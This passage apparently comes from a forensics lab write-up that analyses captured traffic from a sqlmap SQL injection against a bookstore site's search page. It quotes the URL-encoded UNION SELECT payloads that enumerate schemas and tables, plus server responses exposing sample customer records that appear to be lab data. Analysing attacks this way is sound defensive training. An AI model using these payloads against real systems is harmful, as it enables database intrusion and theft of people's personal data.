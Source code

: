 After analysis the following query (packet 1520) is the way that the attacker (actually `sqlmap` did) used to list the databases.

```
/search.php?search=book%27%20UNION%20ALL%20SELECT%20NULL%2CCONCAT%280x7178766271%2CJSON_ARRAYAGG%28CONCAT_WS%280x7a76676a636b%2Cschema_name%29%29%2C0x7176706a71%29%20FROM%20INFORMATION_SCHEMA.SCHEMATA--%20-
```

## Q6 - Assessing the impact of the breach and data access is crucial, including the potential harm to the organization's reputation. What's the table name containing the website users data?

Continuing the analysis we can find another SQLi listing table information (packet 1548) :

```
GET /search.php?search=book%27%20UNION%20ALL%20SELECT%20NULL%2CCONCAT%280x7178766271%2CJSON_ARRAYAGG%28CONCAT_WS%280x7a76676a636b%2Ctable_name%29%29%2C0x7176706a71%29%20FROM%20INFORMATION_SCHEMA.TABLES%20WHERE%20table_schema%20IN%20%280x626f6f6b776f726c645f6462%29--%20- HTTP/1.1
Cache-Control: no-cache
User-Agent: sqlmap/1.8.3#stable (https://sqlmap.org)
Host: bookworldstore.com
Accept: */*
Accept-Encoding: gzip,deflate
Connection: close

HTTP/1.1 200 OK
Date: Fri, 15 Mar 2024 12:08:56 GMT
Server: Apache/2.4.52 (Ubuntu)
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 166
Connection: close
Content-Type: text/html; charset=UTF-8

<p>qxvbq["admin", "books", "customers"]qvpjq</p><form action="search.php" method="get">
    <input type="text" name="search" placeholder="Search for books...">
    <input type="submit" value="Search">
</form>
```

The table containing user data is named `customers`. Here is a sample of extracted data :

```

<p>qxvbq["123 Maple Streetzvgjckjohn.doe1234@gmail.comzvgjckJohnzvgjck5zvgjckDoezvgjck555-1234", "456 Oak Avenuezvgjckjane.smith5678@gmail.comzvgjckJanezvgjck6zvgjckSmithzvgjck555-5678", "789 Pine Roadzvgjckemily.johnson91011@gmail.comzvgjckEmilyzvgjck7zvgjckJohnsonzvgjck555-9012", "321 Birch Boulevardzvgjckmichael.brown1213@gmail.comzvgjckMichaelzvgjck8zvgjckBrownzvgjck555-3456", "654 Willow Wayzvgjcksarah.davis1415@gmail.comzvgjckSarahzvgjck9zvgjckDaviszvgjck555-6789", "987 Cedar St.zvgjckwilliam.wilson1617@gmail.comzvgjckWilliamzvgjck10zvgjckWilsonzvgjck555-1011", "345 Spruce Ave.zvgjckjessica.moore1819@gmail.comzvgjckJessicazvgjck11zvgjckMoorezvgjck555-1213", "678 Pine St.zvgjckdavid.taylor2021@gmail.comzvgjckDavidzvgjck12zvgjckTaylorzvgjck555-1415", "901 Maple Dr.zvgjcklinda.anderson2223@gmail.comzvgjckLindazvgjck13zvgjckAndersonzvgjck555-1617", "123 Oak Lanezvgjckjames.thomas2425@gmail.comzvgjckJameszvgjck14zvgjckThomaszvgjck555-1819"]qvpjq</p><form action="search.php" method="get">
    <input type="text" name="search" placeholder="Search for books...">
    <input type="submit" value="Search">
</form>
```
